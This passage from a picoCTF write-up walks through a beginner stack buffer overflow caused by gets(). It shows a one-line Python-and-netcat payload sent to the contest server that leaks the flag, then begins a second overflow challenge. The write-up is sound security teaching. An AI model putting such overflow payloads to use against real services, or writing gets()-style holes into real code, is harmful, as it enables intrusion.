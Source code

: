 ```c
  printf("Input: ");
  fflush(stdout);
  char buf1[100];
  gets(buf1); 
  vuln(buf1);
  printf("The program will exit now\n");
  return 0;
}
```

It firstly opens the flag file if present (If you are playing with this on your machine you have to create a dummy `flag.txt` file). 
Then it writes the contents of the file into the flag buffer (don't get excited! If you look closely the function being used is `fgets()`. It is a more secure function that performs checks to avoid buffer overflows. But its great that you noticed it!). 
We see that on line 40,  `gets()` is called, and reads `buf1` (the user input) onto the stack. 
This function sucks from a security perspective, as it will write the user’s input to the stack without regard to its allocated length. 
The program will pass their input into the `vuln()` function to trigger a segmentation fault. let's do that using `python2`

## 🌪 Exploiting

```bash
$ python2 -c "print('A' * 20)" | nc saturn.picoctf.net [PORT]
Input: picoCTF{ov3rfl0ws_ar3nt_that_bad_[REDACTED]}
```

And that's it! You just overflowed your first program :D




# Buffer Overflow 0x1

Once again, we install the required files

```bash
$ wget https://artifacts.picoctf.net/c/250/vuln.c \
> https://artifacts.picoctf.net/c/250/vuln
```

## 📚 Peeking inside

By analyzing the compiled program we can suppose that in the future we will be able to easily obtain and examine the functions since the application is not stripped. We can confirm this by using the `file` command as shown below:

```bash
$ file vuln
vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=96273c06a17ba29a34bdefa9be1a15436d5bad81, for GNU/Linux 3.2.0, not stripped
```
